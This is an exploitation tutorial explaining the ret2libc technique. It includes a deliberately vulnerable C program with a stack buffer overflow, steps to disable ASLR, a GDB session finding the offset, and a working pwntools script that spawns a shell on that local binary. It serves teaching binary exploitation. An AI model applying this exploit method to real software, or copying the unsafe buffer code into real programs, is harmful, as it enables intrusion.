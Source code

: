 # Ret2libc ( return to libc attack )

Prerequisite: 

* NX Enabled
* No Canary
* PIE Disabled
* No Fortify

# ret2libc definition

As the name says, `ret2libc` which means, this technique involves code reusual from the dynamically linked file `libc.so.6`, since most of the binary is dynamically linked, all the functions which are predefined, for example `strcmp`, `puts`, `printf`, `gets` etc. are stored in the `libc.so.6`, when you dynamically link  an ELF file, these functions are stored in a section named as `.got.plt` which contains the `GOT` address, which is the address which imports the addresses of function in the runtime. Since, this section is about how to do `ret2libc` when `ASLR` is disabled.  It is simple from what you have been doing in stack overflow with a `ret2func` technique. In `ret2win` payload looks like:

```r
----------------------------------------------------
| padding to EIP | address of the win function     |
----------------------------------------------------
```

In `ret2libc` technique, our payload looks like:-

```r
--------------------------------------------------------------------------
| padding to EIP | function from libc.so.6 | dummy ret | args1.....argsN |
--------------------------------------------------------------------------
```
Where `N` being the number of arguments a function takes.

Now, let's take a binary and see how to use `ret2libc`:-

```C

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vulnerable() {
	printf("> ");
	fflush(stdout);

	char buffer[128];
	read(STDIN_FILENO, &buffer[0], 512);
}

int main(int argc, char** argv) {
	vulnerable();

	return EXIT_SUCCESS;
}```

Compiling it with:

```r
d4mianwayne@oracle:/tmp/train$ gcc m32 -fno-stack-protector -no-pie ret2libc.c -o ret2libc
d4mianwayne@oracle:/tmp/train$ ./ret2libc 
> lol
d4mianwayne@oracle:/tmp/train$ checksec ret2libc
[*] '/tmp/train/ret2libc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

`NX Enabled` which means we can't just throw in the shellcode and make it executable, hence spawning a shell. Disabling the `ASLR`:-

```r
d4mianwayne@oracle:/tmp/train$ cat /proc/sys/kernel/randomize_va_space 
2
d4mianwayne@oracle:/tmp/train$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
[sudo] password for d4mianwayne: 
0
d4mianwayne@oracle:/tmp/train$ cat /proc/sys/kernel/randomize_va_space 
0
```

Now, everything is good, let's check the offset for EIP:-

```r

warning: ~/.gdbinit.local: No such file or directory
Reading symbols from ret2libc...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 2 commands could not be loaded, run `gef missing` to know why.
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /tmp/train/ret2libc 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.

-- snip --

$eip   : 0x6261616b ("kaab"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffceb0│+0x0000: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"	 ← $esp
0xffffceb4│+0x0004: "maabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabya[...]"
0xffffceb8│+0x0008: "naaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n[...]"
0xffffcebc│+0x000c: 0x6261616f
0xffffcec0│+0x0010: 0x62616170
0xffffcec4│+0x0014: 0x62616171
0xffffcec8│+0x0018: 0x62616172
0xffffcecc│+0x001c: 0x62616173
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6261616b
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2libc", stopped 0x6261616b in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x6261616b in ?? ()


gef➤  pattern search 0x6261616b
[+] Searching '0x6261616b'
[+] Found at offset 140 (little-endian search) likely
```

The offset for `EIP` Is 140. Now, let's see how our payload is going to be, since we basically want to do `system("/bin/sh")`, all we have to do is get the address of `system` and `/bin/sh`. 

Let's find out the address:-

```r
 ✘ d4mianwayne@oracle  /tmp/train  ldd ret2libc
	linux-gate.so.1 (0xf7fd5000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dd5000)
	/lib/ld-linux.so.2 (0xf7fd6000)
 d4mianwayne@oracle  /tmp/train  strings -a -tx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 17e0cf /bin/sh
```

This is the offset of the string `/bin/sh` in `libc.so.6`, and ASLR is disabled, so the base address of `libc.so.6` is `0xf7dd5000`. Then the address of `system` would be and `/bin/sh` would be-


```r
gef➤  p 0xf7dd5000 + 0x17e0cf
$1 = 0xf7f530cf
gef➤  x/s 0xf7f530cf
0xf7f530cf:	"/bin/sh"
gef➤  p system
$2 = {int (const char *)} 0xf7e12200 <__libc_system>
gef➤  
```


Payload would be:-


```r
------------------------------------------------------
| "A"*140 | system_addr + dummy_ret + /bin/sh address|
------------------------------------------------------
```

> Note: `dummy_ret` could be `0xdeadbeef` or `ret;`

Now, let's make an exploit and run it:-

```python
from pwn import *

p = process("./ret2libc")

bin_sh = 0xf7f530cf
system_addr =  0xf7e12200 


payload = b"A"*140
payload += p32(system_addr)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

p.sendlineafter(b"> ", payload)
p.interactive()
```

Running the exploit:-

```r
 d4mianwayne@oracle  /tmp/train  python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 9167
[*] Switching to interactive mode
$ ls
ret2libc  ret2libc.c  ret2libc.py
$ 
[*] Interrupted
```

Next up is: ASLR enabled `ret2libc` attack.